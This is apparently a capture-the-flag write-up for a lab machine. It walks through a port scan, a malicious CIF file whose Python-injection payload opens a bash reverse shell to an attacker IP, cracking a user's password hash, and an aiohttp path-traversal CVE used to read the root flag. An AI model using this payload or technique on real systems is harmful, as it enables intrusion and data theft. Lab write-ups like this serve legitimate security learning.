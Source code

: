 # Recon:
IP: 10.10.11.38```
nmap -sV 10.10.11.38 -T4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-16 02:36 IST
Stats: 0:00:49 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 02:37 (0:00:41 remaining)
Stats: 0:01:32 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 02:38 (0:01:23 remaining)
Nmap scan report for 10.10.11.38
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)```
![[Pasted image 20241116030034.png]]

The given CIF file:```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1```

Looking into CIF vuln; we find this link
https://github.com/advisories/GHSA-vgv8-5cpj-qj2f
![[Pasted image 20241116032039.png]]
# User Flag:
reading into this; our exploit code would be
```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy




 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh >& /dev/tcp/10.10.14.250/4444 0>&1'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "


stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset
```
![[Pasted image 20241116052443.png]]
upon uploading the file and acquiring a reverse shell and looking into directories we find database.db file which has the password hashed !
![[Pasted image 20241116052734.png]]
here we see both "App"and "rosa" hashed; i dehashed rosa to get its pass
`unicorniosrosados`
after getting rosa's pass we elevate into rosa, thereby retrieving the user flag.
![[Pasted image 20241116052938.png]]

userflag :`5f9e9a7223bc92c092fc3a246567906f`


# Root:
by using linpeas we see that there's a website running on localhost
![[Pasted image 20241116053432.png]]
using curl i found the server information
![[Pasted image 20241116053601.png]]
i immediately checked if the webserver had any vulns and discovered this.
https://github.com/s4botai/CVE-2024-23334-PoC
CVE-2024-2334 LFI/path traversal vuln itself lies in a way how aiohttp handles requests for static resources

so the files can be read by exploiting path traversal, even priv files; and as we neeed root.txt

![[Pasted image 20241116053824.png]]
the exploit worked. and we got the root flag

Root Flag: `4548f2bac4e15a7e9a1f8da4293d76cd`

Pretty late to the party but ![[Pasted image 20241116055233.png]]
It was a fun box.
